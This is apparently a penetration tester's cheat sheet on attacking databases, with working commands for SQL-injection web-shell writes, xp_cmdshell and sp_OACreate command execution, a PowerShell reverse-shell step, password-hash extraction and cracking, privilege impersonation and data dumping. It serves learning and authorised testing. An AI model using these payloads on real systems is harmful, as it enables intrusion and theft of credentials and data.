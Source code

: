 ```yaml
---
layout: blank
pagetitle: Database Attacks
---
```


## General Database viewer tools
- Use `dbeaver` on kali, has a nice GUI and everything

## MySQL
- MariaDB is an open-source fork
- `mysql -u {username} -p -h {host IP} -P {port}`
- Specifying multiple parameters `SELECT user, passhash FROM mysql.user WHERE user = '{username}'`
- Enumeration:
	- List all databases: `SELECT * FROM information_schema.tables;`
	- Version: `SELECT @@version;`
	- Current user: `SELECT system_user();`
- MySQL RCE via SQLi
	- Use the `INTO OUTFILE` to create a PHP/JSP/ASPX/etc shell
		- Example: `' UNION SELECT "<?php system('whoami');?>", null, null INTO OUTFILE "/var/www/html/tmp/shell.php" -- // `
			- `tmp` is important, because we might not have perms for `/html`
		- Then, either LFI the new file or straight up access it if possible
	- Can also extract users/passwords and crack hashes
	- Could search up phpmyadmin version to get RCE (LFI + session cookie can lead to RCE)
- Dumping MySQL: `mysqldump -h [host] -u [user] -p[password] --all-databases > mysql_all_dbs.sql`


## MSSQL
- Database management built into Windows
	- `master` database for system-level details, `msdb` database for scheduling alerts/jobs, `model` database acts as blueprint for new mssqlservers, `resource` database for hosting system objects in read-only fashion, `tempdb` database as temporary storage area
	- Users vs. logins
		- Both users and logins are required to perform database operations
		- Users dictate who can access the SQL server instance as a whole (but this doesn't provide any database access)
			- These can be local database users, like `sa`, local Windows users, or Domain users
			- Thus, a valid user without any database logins wouldn't be able to do anything, despite having credentials to access the server
		- Logins provide users access to specific databases within the server
- Controlled via `Invoke-Sqlcmd`
  - `Install-Module -Name SqlServer -Force`
  - `Invoke-Sqlcmd -ServerInstance localhost\{SQL_server_name} -Database {database_like_master} -Query {query}`
- Importing [PowerUPSQL](https://github.com/NetSPI/PowerUpSQL) can give some useful Powershell commands, like `Get-SQLInstanceLocal` to identify local mssql servers
  - Cheatsheet: [https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)
  - `Get-SQLServerPasswordHash` gets SQL server login passwords
  - Inspecting linked servers: `Get-SQLServerLink` 
    	- With auth: `-Username {mssql_username} -Password {mssql_password}  -Instance {server_name} -Verbose`
- **Impacket's MSSqlClient** 
	- Kali has the very useful `impacket-mssqlclient` to connect to MSSQL databases
	- `impacket-mssqlclient {database_username}:{password}@{host IP}`
		- `-windows-auth` allows us to authenticate with windows credentials; `-k` to use `.ccache` kerberos auth 
	- **Command Execution**
		- Can use `enable_xp_cmdshell` and `xp_cmdshell {command}` to execute commands on the underlying server
		- Can also use the blind `sp_start_job {command}` to execute commands, or the `sp_OACreate` method described below
		- Turn this execution into a reverse shell with the python reverse shell generator in Miscellaneous notes
			- `xp_cmdshell "powershell -exec bypass -enc {b64_payload}"`
	- **Password Hashes**
		- Get local database password hashes with `select name,password_hash from sys.sql_logins`
			- Ignore `##MS##` hashes, since they're usually disabled (can be checked in `sys.sql_logins`) and the passwords are random
		- Can be cracked with hashcat, but they need to be reorganized
			- Stored in `b'0200 + 4-byte salt + 64-byte SHA512 hash'` structure, and we need it in `0x{hex}` format, so just remove byte string indicators and add `0x` at the front
			- Then crack with `hashcat -m 1731`
	- **Impersonation**
		- We can use `enum_impersonate` to see who our current user can impersonate (`grantor` category)
			- We can enumerate both users and logins with `exec_as_user {user}` or `exec_as_login {login}` on their own, which will drop us into a shell as that user/in that database
				- If the authorized user or login is a domain user, we can pass the domain with `exec_as_{user/login} {domain}\{user}`
			- From this point, we should run `enum_impersonate` again to see if our new user can impersonate anyone
		- Our target would be to impersonate either the `sa` user, an equivalently-privileged user, or a `dbo` login of the `system` database
			- The `dbo` login stands for Database Owner and gives full control over that database
	- **Linked servers**
		- After enumerating all accessible users, we can enumerate linked mssql servers with `enum_links`
		- This will show us what linked servers our current user can use
			- This will show which users have remote login permissions
				- If local login `NULL` has a remote login, we can just execute queries without auth
				- What will be more likely is a user that has impersonation rights with a remote login on another server
					- Thus, we can log in as that user to the mssql server, run `use_link {server_name}`, and then interact with the database normally
					- The `sa` user won't show any explicit links, since they're able to impersonate any user with a link
						- Thus, if there's a user with access to a linked database, we can simply impersonate them using `sa`
			- Running `enum_links` as `sa` (or equivalent) will show all user links, allowing different chains
		- Can run basic queries as authorized users with `SELECT * FROM OPENQUERY( {linked_server_name}, '{query}')`
- List all databases: 
	- `SELECT name FROM sys.databases;`
	- Then, `SELECT * FROM {database name from first query}.information_schema.tables;`
	- This returns the tables within that database, which we can query from with `SELECT * from {database name}.dbo.{table name}`
		- `dbo` is a table schema
- Enabling `xp_cmdshell`:
	- After opening SQL terminal, can run EXECUTE commands using xp_cmdshell
		- This can be enabled by a user with permissions with 
			- `EXECUTE sp_configure 'show advanced options', 1; `
				- Showing advanced options is actually required to run xp_cmdshell
			- `RECONFIGURE;` 
			- `EXECUTE sp_configure 'xp_cmdshell', 1;`
			- `RECONFIGURE;`
		- Then, pass arbitrary commands with `EXECUTE xp_cmdshell 'whoami';`
- Can also use `sp_OACreate` to execute system commands:
	- `sp_configure 'show advanced options', 1;`
	- `RECONFIGURE;` 
	- `sp_configure 'Ole Automation Procedures', 1;`
	- `RECONFIGURE;`
	- `DECLARE @shell INT; EXEC sp_OACreate 'WScript.Shell', @shell OUTPUT; EXEC sp_OAMethod @shell, 'Run', NULL, 'cmd.exe /c {command}';`
- Dumping MSSQL (table names): `Invoke-Sqlcmd -ServerInstance [server] -Username [user] -Password [password] -Query "SELECT name FROM master.sys.databases" | Format-Table -AutoSize > mssql_dbs.txt`

## SQLite
- Use `sqlitebrowser` for viewing sqlite databases
- Can't execute functions, but can load malicious files
	- `SELECT load_extension('/tmp/malicious.so');`
- `SQLite CLI` allows command execution with `.shell {command}` or `.system {command}`
- Outdated versions may have RCE CVEs

## PostgreSQL
- Use `psql` for to connect to PostgreSQL databases
- Command execution with `COPY (SELECT '') TO PROGRAM 'bash -c "whoami"';`
	- Requires superuser
- Command execution with `SELECT pg_execute_server_program('id');`
	- This won't require superuser, but will require `pg_execute_server_program`
- Dumping PostgreSQL: `pg_dump -h [host] -U [username] -F c -b -v -f postgresql_all.dump postgres`

## Oracle
- Comand execution with `EXEC dbms_java.runjava('java.lang.Runtime.getRuntime().exec("{command}")');`
- Dumping Oracle: `sqlplus [username]/[password]@[host]/[SID] @extract.sql > oracle_data.txt`

## MongoDB
- Dumping MongoDB: `mongodump --host [host] --port [port] --username [user] --password [password] --out ./mongodb_dump`
